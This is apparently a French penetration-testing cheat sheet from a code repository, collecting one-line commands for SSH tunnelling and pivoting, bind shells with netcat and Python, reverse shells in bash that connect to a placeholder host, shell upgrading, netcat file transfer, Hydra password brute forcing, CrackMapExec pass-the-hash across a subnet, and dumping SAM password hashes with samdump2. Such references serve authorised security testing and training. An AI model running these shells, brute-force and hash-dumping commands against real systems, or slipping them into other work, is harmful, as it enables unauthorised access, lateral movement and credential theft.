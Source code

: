 Accorder les permissions pour un user specifique

```
setfacl -m u:username:rwx myfolder
```
Tunnel ssh dynamique sur le port local 8080:

```
ssh -ND 8080 root@addressIP
```
Rebonds avec ssh:

```
ssh -J root@premier_rebond root@cible
```
Port forwarding avec ssh:

```
ssh -NL port_local:cible_distante:port_cible_distante root@rebond</br>
```
<h3>Obtenir un shell</h3>
Ouvrent un shell sur le port 2222 :

```
 nc -lkvp 2222 -e /bin/bash
 python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.bind(('',2222));s.listen(1);conn,addr=s.accept();os.dup2(conn.fileno(),0);os.dup2(conn.fileno(),1);os.dup2(conn.fileno(),2);p=subprocess.call(['/bin/bash','-i'])"
```
On se connecte avec nc -nv 2222 adress port

## Reverse Shell

# Bash

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 1.2.3.4 8888 >/tmp/f

bash -c 'bash -i >& /dev/tcp/1.2.3.4/8888 0>&1'
```

<h4>Pour avoir un shell pty :</h4>

```
python -c "import pty; pty.spawn('/bin/bash')"
```
<h4>Pour avoir tab completion tout joli :</h4>
Prendre un shell pty avec la commande plus haut

```
 CTRL-Z
 stty raw -echo
 fg
 stty rows 40 columns 160
```

Envoi fichier avec netcat :

```
nc -l -p 1234 > out.file
nc -w 3 [destination] 1234 < out.file
```

##### Tools

#### Hydra:
http-auth bute force

```
hydra -L user.txt -P password.txt -t12 -f x.x.x.x http-get / -V
```

#### XfreeRDP:

```
xfreerdp /f +clipboard /kbd:0x0000040C /u:USERNAME@DOMAIN /p:PASSWORD /v:IP
```


#### CrackMapExec

Une fois le hash administrateur récupéré sur un poste:

```
cme smb -u Administrateur -H HASH 192.168.20.0/24 --local-auth
```

#### Guestmount

Pour monter un fichier vhd sur Linux

```
guestmount --add file.vhd -m /dev/sda1 --ro /mnt/vhd
```

#### Samdump

Récupérer les hash de la table SAM

```
samdump2 SYSTEM SAM
```
